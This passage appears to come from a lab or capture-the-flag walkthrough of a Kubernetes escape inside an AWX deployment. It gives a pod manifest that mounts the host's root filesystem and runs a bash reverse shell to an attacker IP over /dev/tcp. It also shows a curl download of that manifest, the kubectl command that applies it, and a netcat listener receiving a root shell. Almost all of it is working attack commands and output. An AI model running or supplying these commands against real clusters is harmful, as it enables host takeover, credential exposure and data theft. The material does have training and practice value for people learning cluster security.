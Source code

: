 ```
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
pods/log                                        []                                    []               [get]
```

We can create `pods`. If we create one that mounts the host path, and gives us a reverse shell, we can access to the underlying host filesystem. Let’s do that!

```
$ cat attacker.yaml
apiVersion: v1
kind: Pod
metadata:
  name: command0
  namespace: awx
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - name: command
    image: quay.io/centos/centos:stream8
    command: ["/bin/sh"]
    args: ["-c", "printenv; bash -i >& /dev/tcp/10.10.14.30/4445 0>&1"]
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

Let’s download it from the victim pod:

```
$ curl -so /tmp/attacker.yaml http://10.10.14.30:8080/attacker.yaml
$ ./kubectl apply -f /tmp/attacker.yaml
```

And get our reverse shell on port 4445:

```
$ nc -lnv 4445
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4# id
id
uid=0(root) gid=0(root) groups=0(root)
```
